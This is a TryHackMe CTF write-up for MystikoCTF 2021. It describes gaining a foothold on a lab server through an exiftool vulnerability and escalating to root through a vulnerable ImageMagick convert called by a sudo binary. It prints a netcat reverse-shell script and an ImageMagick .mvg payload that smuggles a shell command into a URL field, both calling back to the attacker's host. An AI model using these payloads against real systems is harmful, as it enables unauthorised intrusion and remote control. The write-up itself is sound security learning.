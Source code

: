 ```yaml
---
title: [MystikoCTF] - THM - Walkthrough
tags: web, thm, privesc
---
```


![photo_2021-02-10_22-58-30](https://user-images.githubusercontent.com/84577967/174065612-9a8249f1-005f-4ba3-a752-d4b1ed44df25.jpg){:.circle}

## MystikoCTF 2021

Date: 21<sup>st</sup> / 22<sup>nd</sup> November 2021

## Description

> This is my writeup for the recent ctf hosted by Mystiko, the CTF was hosted on TryHackMe and was too much fun, So I would like to thank the team for making this really challenging and also for the great machine.

- THM Link: [MystikoCTF2021](https://tryhackme.com/room/mystikoctf2021)

- Difficulty: <font size="3" color="orange">Medium</font>

I unfortunately didn't have much time for the whole CTF, but I ended up sharing the third position with `cryptonic007`.

# Enumeration

The CTF had 3 different webapps

> Only PIXEL, DEV01 and DEV02 are in scope for this CTF. Do NOT attack any other IP address or hostname.

So as a start and as usual we should run nmap:

```bash
> nmap -sC -sV 10.10.206.211 -vvv                                             
```
We got 2 opened ports 22 (SSH) and 8080 (Nginx WebServer)

Let's dig into the webserver

![2021-11-22_16-15-23](https://user-images.githubusercontent.com/84577967/174065713-a0a47901-3b89-4414-a30e-02d3615dbe00.png)


We have a kind of images uploader, I opened the source page to see if there is anything hidden as comments but there were nothing, and I also confirmed that its accepting only images.

![2021-11-22_16-17-33](https://user-images.githubusercontent.com/84577967/174065741-f3cc5bfc-daf1-47f3-a4fd-2d14d9f6805e.png)


I had to upload an image and go to burpsuite, to see what going on actually

![2021-11-22_16-21](https://user-images.githubusercontent.com/84577967/174065770-d9db02ce-0dc7-4446-b6f7-f514078ed2f4.png)


I tried to manipulate the file extension and also the Mime Type with multiple methods but nothing was working, but I eventually noticed something in the response

![2021-11-22_16-22](https://user-images.githubusercontent.com/84577967/174065788-51716dc6-0104-47b2-8582-22839af29029.png)


And that was a hidden HTML headings that has some output from the picture I uploaded (mime type,size,image size) and also was starting with a weird `10.61` that looks like a version number !

So I thought probably doing exiftool job, so I had to look for a recent vulnerability of exiftool `CVE-2021-22204` that I had never the chance to try it ... 

# Foothold

I tried multiple public cve's and I eventually ended up with a working one

https://github.com/bilkoh/POC-CVE-2021-22204

Using this command line I was able create the evil picture

![2021-11-22_16-52-54](https://user-images.githubusercontent.com/84577967/174065814-033ab445-5963-42a8-bed3-5bb71f6a41a4.png)


So the picture will download a file `shell.sh` from my attacking webserver and run it

`shell.sh` : 
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.2.95.202 9009 >/tmp/f
```

Let's upload the file 

![2021-11-21_13-29-19](https://user-images.githubusercontent.com/84577967/174065844-908a9f8d-be3d-4845-9b52-38593cb0fe39.png)


So after I set my listener and I uploaded the file I succeeded in getting a reverse shell 

![2021-11-22_16-56-09](https://user-images.githubusercontent.com/84577967/174065877-995382ea-7c6f-4bcb-999e-2fcc57128155.png)


Getting the first flag `local.txt` was pretty easy, the flag was in the home directory of our current user `pixel` and I was able to read it without any restrictions.

![2021-11-21_13-29-07](https://user-images.githubusercontent.com/84577967/174065895-f63a0342-78b3-413c-afe6-74034df064a5.png)


# Privilege Escalation

The first thing I ever do is typing `sudo -l`, to check if there is any commands I can execute with sudo.

![2021-11-21_13-30-34](https://user-images.githubusercontent.com/84577967/174065911-af8a4420-9d19-4ab2-8f98-74feca2b3ed2.png)


Great ! we have a binary named pixel I copied the binary to my machine for some reversing ...

![2021-11-21_13-31-02](https://user-images.githubusercontent.com/84577967/174065932-53d5f67c-92e4-4bf1-9ab0-20a30b8053ee.png)


I also opened it in ghidra, but nothing was too interesting

![2021-11-22_17-19-53](https://user-images.githubusercontent.com/84577967/174065960-2b860b8b-21c9-4215-8fc5-deff78ed1ef8.png)


Then I had to run the binary in my machine to see what this thing is doing actually ...

![2021-11-21_13-31-10](https://user-images.githubusercontent.com/84577967/174065988-93c4886a-cd16-42d4-ae09-18656dc04771.png)


Kind of an Image Toolkit created by `SIXER` team, I choosed to convert an image to a PDF file and see what will happen ...

![2021-11-21_13-32-36](https://user-images.githubusercontent.com/84577967/174066023-b2b56f4d-0d32-4cf4-b132-57be2cb43797.png)


The `Generating PDF` line show us that the binary is using another binary `/usr/local/bin/convert` to convert the image to a PDF file, and I recently just had an experience with the 2016's `convert` exploit, so I quickly go back the Pixel machine and check for the `convert` version

![2021-11-21_13-33-01](https://user-images.githubusercontent.com/84577967/174066040-8cc05195-ad7b-4a72-915a-ee83e6899263.png)


And yes ! the version was vulnerable, so by google `ImageMagick exploit` you will get a bunch of articles that explains this vulnerability and shows multiple ways to exploit it.

So I went with this steps:

1) Go to `/tmp/` directory.

1) Create a new file `exploit.mvg`:

```
push graphic-context
viewbox 0 0 640 480
fill 'url(https://example.com/image.jpg"|nc -e "/bin/sh" "10.2.95.202" "9009)'
pop graphic-context
```
![2021-11-21_13-27-19](https://user-images.githubusercontent.com/84577967/174066067-cb5331e8-00a6-48d7-a851-cbfd26c9fb04.png)


2) Set my listener on port 9009:

  ```
  nc -lvnp 9009
```
3) Run `sudo /usr/bin/pixel` and follow the steps as the image shows (instead of `x.jpg` enter `exploit.mvg`)

![2021-11-21_13-32-36](https://user-images.githubusercontent.com/84577967/174066087-18504f00-3749-4129-90cc-5ab238b6514e.png)


4) Going back to my listener to check if I got a reverse shell:

![2021-11-21_13-35-30](https://user-images.githubusercontent.com/84577967/174066111-a6238dc3-d7b7-48a8-8e7e-474ade679153.png)


And yes ! I was root and able to read the second flag `proof.txt`

![2021-11-22_17-34-28](https://user-images.githubusercontent.com/84577967/174066152-8befadde-2aea-4454-b8ca-e03a52150dc2.png)


---
Hope you enjoyed my writeup like I enjoyed playing the CTF.

Regards,
AB2.